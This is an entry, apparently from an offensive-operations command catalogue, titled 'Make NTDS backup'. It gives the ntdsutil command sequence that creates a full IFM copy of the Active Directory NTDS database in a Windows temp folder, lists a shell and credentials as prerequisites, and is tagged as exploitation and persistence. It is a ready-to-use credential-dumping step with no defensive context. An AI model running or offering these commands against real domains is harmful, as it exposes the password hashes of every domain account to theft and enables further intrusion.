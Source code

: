 ```yaml
---
title: |
  Make NTDS backup
description: |

  Command Reference:

  	ntdsutil

  	activate instance ntds

  	ifm

  	create full C:\windows\temp\<uniquefoldername>

  	quit

  	quit

command: |
  See commands.
items:
  - Shell
  - Username
  - Password
OS:
  - Windows
attack_types:
  - Exploitation
  - Persistence
---
```

